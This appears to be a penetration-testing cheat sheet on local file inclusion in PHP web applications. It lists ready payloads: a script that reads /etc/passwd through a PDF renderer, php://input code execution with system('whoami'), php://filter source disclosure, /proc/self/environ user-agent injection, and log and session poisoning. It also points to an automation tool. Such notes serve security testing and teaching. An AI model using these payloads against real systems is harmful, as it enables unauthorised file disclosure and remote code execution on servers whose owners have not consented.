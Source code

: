 # File Inclusion

### PDF

```text
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

### LFI to shell

* use `page=php://input`, payload must be in the POST Body \(but the request is GET\), e.g. `<?php echo system('whoami');?>`, this is also possible for `zip://` and `phar://`
* get source code with filter: `page=php://filter/convert.base64-encode/resource=<filename>`
* `page=../../../../../proc/self/environ`, if this is accessible we can set the user agent to php code in `<?php .. ?>` and get it executed, this can also be done for `/proc/self/id/<id>` and the referrer field \(bruteforce the id\)
* log poisoning, write php into log via error message and request via lfi
* session poisoning, write a malicious session variable and include the session from `/var/lib/phpX/sess_<phpsessid>`

Many of these techniques are automated and implemented in [LFISuite](https://github.com/D35m0nd142/LFISuite).

